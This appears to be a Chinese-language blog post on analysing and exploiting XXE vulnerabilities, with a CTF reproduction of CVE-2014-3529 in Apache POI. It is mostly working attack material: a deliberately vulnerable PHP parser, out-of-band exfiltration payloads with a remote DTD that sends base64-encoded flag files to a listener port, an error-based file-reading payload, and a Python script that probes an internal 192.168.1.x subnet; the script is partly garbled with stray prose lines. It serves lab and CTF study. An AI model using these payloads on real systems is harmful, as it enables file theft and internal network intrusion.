








 XXE漏洞分析及实战


<!--  -->

 常用payload分析

好像大家都用这个测试代码

```php
<?php

libxml_disable_entity_loader(false);

$xmlfile = file_get_contents("php://input");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
var_dump($creds);
```

使用XML发送数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY a SYSTEM "http://localhost:8887/aaaaa">
]>
<root>&a;</root>
```

但是我在尝试参数实体的时候似乎不能外带数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % a "http://localhost:8887/aaa">
%a;
]>
<root></root>
```

<!--  -->

嵌套也是不行的

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///flag.txt">  
	<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
	%start;
	%send;
]>
```

最常用的外带数据的方法：

在自己的vps上准备两个文件，我这里就就都在本机做的实验

本地的8001端口开一个web服务，

<!--  -->


`local.xml` 文件内容：

```xml
<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
%start;
```

这个文件表示读取到数据之后发送给另一个8887端口，然后我们向受害者服务器发送数据，

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">  
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./flag.txt">
	%remote;
	%send;
]>
<message>1234</message>
```

然后就可以在8887端口接收到数据了

<!--  -->


换一种 `payload` 也行

DTD文件

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

发送的 paylod

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```

 报错XXE

这个方法p牛其实早就说过了,通过三层嵌套的XML就可以达到报错

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ELEMENT message ANY>
	<!ENTITY % para1 SYSTEM "file:///flag">
	<!ENTITY % para '
		<!ENTITY &x25; para2 "<!ENTITY &x26;x25; error SYSTEM &x27;file:///&x25;para1;&x27;>">
		&x25;para2;
	'>
	%para;
]>
<message>10</message>
```


<!--  -->


 XXE探测内网

```xml
import requests
import base64
Origtional XML that the server accepts

<xml>

    <stuff>user</stuff>

</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://127.0.0.1/xml.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2]  a little split to get only the base64 encoded value
    print coded_string
   print base64.b64decode(coded_string)

for i in range(1, 255):
    try:
        i = str(i)
        ip = '192.168.1.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
      print "error"
continue
```

 实例分析

 网鼎杯2020 fileJava

用到的漏洞就是 `CVE20143529`

复现代码

```java
import org.apache.poi.EncryptedDocumentException;
import org.apache.poi.openxml4j.exceptions.InvalidFormatException;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;
import java.io.FileInputStream;
import java.io.IOException;
public class CVE20143529 {
    public static void main(String[] args) throws IOException, EncryptedDocumentException, InvalidFormatException {
        Workbook wb1 = WorkbookFactory.create(new FileInputStream("test1.xlsx"));
        Sheet sheet = wb1.getSheetAt(0);
        System.out.println(sheet.getLastRowNum());
    }
}
```

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>pxyapache</groupId>
    <artifactId>pxypxy</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>org.apache.poi</groupId>
            <artifactId>poi-ooxml</artifactId>
            <version>3.10-FINAL</version>
        </dependency>
    </dependencies>

</project>
```

利用过程：

准备一个excel文件：

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```


<!--  -->

准备DTD文件

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

会读取文件，然后将其发送到8887端口上


<!--  -->


监听得到的flag


<!--  -->


 参考

YouTube这个视频其实讲的不错：[https://youtu.be/gjm6VHZa\_8s?si=rMGJmuSI9XJNtt\_S](https://youtu.be/gjm6VHZa_8s?si=rMGJmuSI9XJNtt_S)

